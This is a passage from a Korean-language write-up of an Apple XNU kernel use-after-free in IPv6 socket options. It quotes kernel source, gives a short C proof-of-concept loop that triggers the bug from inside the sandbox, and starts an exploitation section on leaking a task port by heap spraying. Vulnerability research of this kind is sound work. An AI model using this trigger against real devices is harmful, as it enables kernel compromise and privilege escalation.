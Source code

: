 ```c
658: in6_pcbdetach(inp);
  bsd/netinet/flow_divert.c	2694: in6_pcbdetach(inp);
  bsd/netinet/tcp_subr.c	1591: in6_pcbdetach(inp);

void
in6_pcbdetach(struct inpcb *inp);
bsd/netinet6/in6_pcb.c	681: ip6_freepcbopts(inp->in6p_outputopts);

bsd/netinet6/ip6_output.c	3345:ip6_freepcbopts(struct ip6_pktopts *pktopt) definition
```

다시 돌아와서…

여기서 문제는 `inp->in6p_outputopts` 가 해제되지만 NULL로 설정되지 않아 포인터가 재사용될 수 있다는 것이다.

소켓을 파괴하지 않고 연결을 끊으면 이 조건에 도달할 수 있다고 추가적으로 설명되었다.

## 개념 증명 코드

샌드박스 내에서 다음 PoC가 적용된다.

```c
while (1) {
    int s = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);

    // 연결을 끊은 후 (그리고 소켓 옵션을 해제한 후) setsockopt 허용
    struct so_np_extensions sonpx = {
        .npx_flags = SONPX_SETOPTSHUT,
        .npx_mask  = SONPX_SETOPTSHUT
    };
    setsockopt(s, SOL_SOCKET, SO_NP_EXTENSIONS, &sonpx, sizeof(sonpx));

    int minmtu = -1;
    setsockopt(s, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu)); // in6p_outputops 할당
    disconnectx(s, 0, 0);   // in6p_outputopts 해제
    **setsockopt(s, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu)); // UAF 발생**
    close(s);
}

```

# Exploit

## 1. Dangling ptr을 활용한 task port 유출

이제 버그와 트리거 방법을 알았으니 익스플로잇으로 넘어가보자.

이것은 UAF 버그이므로 "힙 스프레이"라는 기술이 사용된다.

UAF된 객체는 해제되었는데, 해제된 메모리와 해제되지 않은 메모리의 차이는… 무엇일까?

해제된 메모리는 재사용될 수 있다. 다음 할당이 해제된 객체가 있던 동일한 주소에 끝날 가능성이 있으며, 이런 식으로 해당 객체의 데이터를 제어할 수 있다.
